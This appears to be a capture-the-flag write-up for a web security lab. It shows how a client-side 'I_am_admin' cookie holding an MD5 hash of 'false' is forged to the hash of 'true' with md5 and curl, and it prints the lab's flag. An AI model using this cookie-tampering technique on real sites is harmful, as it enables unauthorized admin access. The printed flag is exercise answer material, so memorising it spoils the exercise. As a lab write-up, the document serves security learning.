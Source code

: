 By looking at the data storage in the used browser we see that the website uses
a cookie with all sent requests called I_am_admin

```
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
```

It appears that the it's value is hashed with md5 according to **https://crackstation.net**.

68934a3e9455fa72420237eb05902327 - false - Possible algorithms: MD5

```
*[main][~/goinfre/projects/darkly/email]$ md5 -s "false"
MD5 ("false") = 68934a3e9455fa72420237eb05902327
*[main][~/goinfre/projects/darkly/email]$ 
```

As we see the hashed value is false means that the user browsing the website is not admin

Let's try and change the value to true and see whats goin to happen.

Using md5 command to hash the value true 

```
*[main][~/goinfre/projects/darkly/email]$ md5 -s "true" 
MD5 ("true") = b326b5062b2f0e69046810717534cb09
*[main][~/goinfre/projects/darkly/email]$ 
```

Now using this value to send a request to any route and see what's going to happen. We are goin to use curl

```
*[main][~/goinfre/projects/darkly/email]$ curl  --cookie "I_am_admin=b326b5062b2f0e69046810717534cb09"  http://10.12.177.91/             
<script>alert('Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3'); </script><!DOCTYPE HTML>
```
